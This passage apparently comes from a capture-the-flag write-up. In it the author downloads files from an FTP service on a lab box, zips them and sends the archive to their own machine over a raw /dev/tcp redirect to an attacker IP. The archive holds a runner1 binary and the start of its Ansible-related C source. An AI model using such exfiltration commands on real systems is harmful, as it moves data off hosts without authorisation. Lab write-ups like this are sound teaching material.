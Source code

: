 ```bash
226 Transfer complete.
318 bytes received in 00:00 (140.45 KiB/s)
local: runner1 remote: runner1
229 Entering extended passive mode (|||55749|).
125 Data connection already open. Transfer starting.
100% |*******************************************************************************************************************************************| 16744        2.19 MiB/s    00:00 ETA
226 Transfer complete.
16744 bytes received in 00:00 (2.12 MiB/s)
local: runner1.c remote: runner1.c
229 Entering extended passive mode (|||45135|).
150 File status okay. About to open data connection.
100% |*******************************************************************************************************************************************|  3815      871.88 KiB/s    00:00 ETA
226 Transfer complete.
3815 bytes received in 00:00 (831.41 KiB/s)
```

And I receive the files in current directory:

```bash
dev_acc@intuition:/tmp$ ls {runner1,runner1.c,run-tests.sh}
runner1  runner1.c  run-tests.sh
```

I will move it into a directory, zip it and transfer it to my machine:

```bash
dev_acc@intuition:/tmp$ mkdir adam-ftp
dev_acc@intuition:/tmp$ mv {runner1,runner1.c,run-tests.sh} adam-ftp/
dev_acc@intuition:/tmp$ zip adam-ftp-files -r adam-ftp/ 
  adding: adam-ftp/ (stored 0%)
  adding: adam-ftp/runner1.c (deflated 69%)
  adding: adam-ftp/runner1 (deflated 77%)
  adding: adam-ftp/run-tests.sh (deflated 47%)
dev_acc@intuition:/tmp$ cat adam-ftp-files.zip > /dev/tcp/10.10.15.95/443
```

I will unzip it and inspect the files inside:

```bash
❯ unzip adam-ftp-files.zip
❯ cd adam-ftp
```

The runner1 file is a binary:

```bash
❯ file runner1
runner1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f520676a77c2264a29f5aa68c1d1f14eef2299c5, for GNU/Linux 3.2.0, not stripped
```

And runner1.c is probably the C code for the runner1 binary:

```c
// Version : 1

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <dirent.h>
#include <openssl/md5.h>

#define INVENTORY_FILE "/opt/playbooks/inventory.ini"
#define PLAYBOOK_LOCATION "/opt/playbooks/"
#define ANSIBLE_PLAYBOOK_BIN "/usr/bin/ansible-playbook"
#define ANSIBLE_GALAXY_BIN "/usr/bin/ansible-galaxy"
```

[WARNING]: Skipping plugin (/usr/lib/python3/dist-packages/ansible/plugins/filter/core.py) as it seems to be invalid: cannot import name 'environmentfilter' from 'jinja2.filters'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-packages/ansible/plugins/filter/mathstuff.py) as it seems to be invalid: cannot import name 'environmentfilter' from 'jinja2.filters'